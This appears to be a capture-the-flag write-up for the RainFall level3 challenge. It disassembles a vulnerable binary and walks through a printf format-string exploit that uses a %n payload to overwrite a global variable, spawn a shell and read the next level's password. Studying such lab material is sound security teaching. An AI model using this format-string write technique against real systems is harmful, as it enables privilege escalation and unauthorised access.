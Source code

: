 # Preparations

Entering level3 home directory we see a level3 binary with sticky bit in access rights.
By objdumping the binary we see 2 functions: main and v:

	level3@RainFall:~$ objdump -D -M intel-mnemonic level3 > /tmp/dump

Why do we do objdump first? Maybe in this exercise a function exists but is not used so we need to see all the functions.

# Code writing

We start to work with gdb in Intel syntax (set disassembly-flavor intel):

	(gdb) disass main
	Dump of assembler code for function main:
	   0x0804851a <+0>:	push   %ebp
	   0x0804851b <+1>:	mov    %esp,%ebp
	   0x0804851d <+3>:	and    $0xfffffff0,%esp
	   0x08048520 <+6>:	call   0x80484a4 <v>
	   0x08048525 <+11>:	leave
	   0x08048526 <+12>:	re

The only action after prologue is a call of the v function.
So main will look like:

	int main(void)
	{
		v();
	}

Let's look in the v function:

	(gdb) disass v
	Dump of assembler code for function v:
	   0x080484a4 <+0>:	push   ebp
	   0x080484a5 <+1>:	mov    ebp,esp
	   0x080484a7 <+3>:	sub    esp,0x218
	   0x080484ad <+9>:	mov    eax,ds:0x8049860			;as last times we start to upload some FILE stream
	   0x080484b2 <+14>:	mov    DWORD PTR [esp+0x8],eax		;argument for fgets, fourth
	   0x080484b6 <+18>:	mov    DWORD PTR [esp+0x4],0x200	;argument for fgets, third
	   0x080484be <+26>:	lea    eax,[ebp-0x208]			;argument for fgets, second
	   0x080484c4 <+32>:	mov    DWORD PTR [esp],eax		;argument for fgets, first
	   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>		; call fgets with arguments placed on stack
	   0x080484cc <+40>:	lea    eax,[ebp-0x208]			;argument for printf
	   0x080484d2 <+46>:	mov    DWORD PTR [esp],eax		;argument for printf, first
	   0x080484d5 <+49>:	call   0x8048390 <printf@plt>		; call printf with arguments placed on stack
	   0x080484da <+54>:	mov    eax,ds:0x804988c			;something new, finally it occured to be a global variable
	   0x080484df <+59>:	cmp    eax,0x40				;comparison to 64, global must be a number
	   0x080484e2 <+62>:	jne    0x8048518 <v+116>		;if global is not equal 64 we leave
	   0x080484e4 <+64>:	mov    eax,ds:0x8049880			;as last times we start to upload some FILE stream
	   0x080484e9 <+69>:	mov    edx,eax				;getting ready to fwrite call
	   0x080484eb <+71>:	mov    eax,0x8048600			;getting ready to fwrite call
	   0x080484f0 <+76>:	mov    DWORD PTR [esp+0xc],edx		;argument for fwrite, fourth
	   0x080484f4 <+80>:	mov    DWORD PTR [esp+0x8],0xc		;argument for fwrite, third
	   0x080484fc <+88>:	mov    DWORD PTR [esp+0x4],0x1		;argument for fwrite, second
	   0x08048504 <+96>:	mov    DWORD PTR [esp],eax		;argument for fwrite, first
	   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt> 		;call fwrite
	   0x0804850c <+104>:	mov    DWORD PTR [esp],0x804860d	;preparation to system
	   0x08048513 <+111>:	call   0x80483c0 <system@plt>		;call system
	   0x08048518 <+116>:	leave
	   0x08048519 <+117>:	ret

Let's see some insites by their addresses:

	(gdb) x/s 0x804988c
		0x804988c <m>:	 ""
	(gdb) print *0x804988c
		$4 = 0

This variable (global one) equals zero that means that it is static (in C all the static variables are 0 by declaration):

	(gdb) x/s 0x8049860
		0x8049860 <stdin@@GLIBC_2.0>:	 "\300", <incomplete sequence \375\267>
	(gdb) x/s 0x8049880
		0x8049880 <stdout@@GLIBC_2.0>:	 " ", <incomplete sequence \375\267>
	(gdb) x/s 0x8048600
		0x8048600:	 "Wait what?!\n"
	(gdb) x/s 0x804860d
		0x804860d:	 "/bin/sh"

All the strings and FILE streams are known now.\
We also need to get the buffer size that is sent to first `fgets` function. We look at the stack + make tests:

	(gdb) x/150x $esp
		a lot of addresses and return addresses:
		0xbffff6d0:	0xb7fed280	0x00000000	0xbffff6e8	0x08048525

It is impossible to overwrite buffer this time because fgets takes definite number of symbols from stdin and all the other leaves there. From the address of the last found letter we substract the beginning of the buffer and get 511 byte + \0 = 512 byte.

	(gdb) p 0xbffff6cf - 0xbffff4d0
		$19 = 511

Numbers in hex are transferred to decimal with the help of programming calculator and finally we write the code in C.\

# Exploitation

We can use shell under level4 user if global variable is equal 64. Global variable lies in bss under address:

	level3@RainFall:~$ objdump -t ./level3
		0804988c g     O .bss	00000004              m

Or \x8c\x98\x04\x08 in little-endian.\
On this level we deal with format string exploits in `printf(buffer)`. It was difficult for understanding.\

String for `printf` lies on the stack and with the help of format string we can look at the stack without gdb:

	level3@RainFall:~$ ./level3
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 00000200 b7fd1ac0 b7ff37d0 **41414141** 41414141 41414141 41414141 41414141 41414141 41414141 41414141

Where our AAA string starts from the **fourth** `printf` argument. Let's try to rewrite address:

	level3@RainFall:~$ python -c "print('AAAA' + '\x8c\x98\x04\x08' + 'BBBB' + '%x ' * 120)" > /tmp/1lev3

	Starting program: /home/user/level3/level3 < /tmp/1lev3
	Breakpoint 4, 0x080484c7 in v ()
	(gdb) x/30wx $esp
		0xbffff4e0:	0xbffff4f0	0x00000200	0xb7fd1ac0	0xb7ff37d0
		0xbffff4f0:	0x00000000	0xb7e2b900	0x00000001	0xb7fef305
		0xbffff500:	0xbffff558	0xb7fde2d4	0xb7fde334	0x00000007

	(gdb) c
		Continuing.

	Breakpoint 1, 0x080484cc in v ()
	(gdb) x/30wx $esp
		0xbffff4e0:	0xbffff4f0	0x00000200	0xb7fd1ac0	0xb7ff37d0
		0xbffff4f0:	0x41414141	**0x0804988c**	0x42424242	0x25207825
		0xbffff500:	0x78252078	0x20782520	0x25207825	0x78252078

All the other 0x25207825 are ‘%x %’ strings. So we can rewrite address of the global variable to the buffer. And then in order to change value of the variable we need to use %n: 

> There is the ‘%n’ parameter, which writes the number of bytes already printed, into a variable of our choice.

So before %n we need to have 64 bytes in the string.

	% python -c 'print "\x8c\x98\x04\x08" + "%10u" * 3 + "JUNK" * 7 + "AA" + "%n"' > /tmp/3lev3

Where functionally:

	- \x8c\x98\x04\x08 - address of the global variable
	- "%10u" * 3 - alignment of stack so that we "pointer" to the 4th argument in printf (beginning of buffer on stack)
	- "JUNK" * 7 + "AA" - bytes to have 64 bytes before %n
	- "%n" that rewrites value of the variable under address that lies in the beginning of the buffer

Where bytes number:

	- \x8c\x98\x04\x08 - 4 bytes
	- "%10u" * 3 - 30 bytes (30 spaces, we do not print anything with this printf so there will be only spaces)
	- "JUNK" * 7 + "AA" - 30 bytes

That equals 64 bytes.

	Breakpoint 1, 0x080484cc in v ()
	(gdb) x/30wx $esp
		0xbffff4e0:	0xbffff4f0	0x00000200	0xb7fd1ac0	0xb7ff37d0
		0xbffff4f0:	**0x0804988c**	*0x75303125*	*0x75303125*	*0x75303125*
		0xbffff500:	0x41414141	0x41414141	0x41414141	0x41414141
		0xbffff510:	0x41414141	0x41414141	0x41414141	0x6e254141

It is very difficult to understand it if you do not play with the line and look on gdb.

# Result

	level3@RainFall:~$ cat /tmp/3lev3 - | ./level3
	�       51230868179843086956496JUNKJUNKJUNKJUNKJUNKJUNKJUNKAA
	Wait what?!
	whoami
	level4
	cat /home/user/level4/.pass
	b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
	^C

Why do we use `cat -` command? Because even if we break the level and call shell, binary is "limited" and can not give us terminal. For that reason we use option of `cat` that helps us to use stdin where shell is called after exploitation.

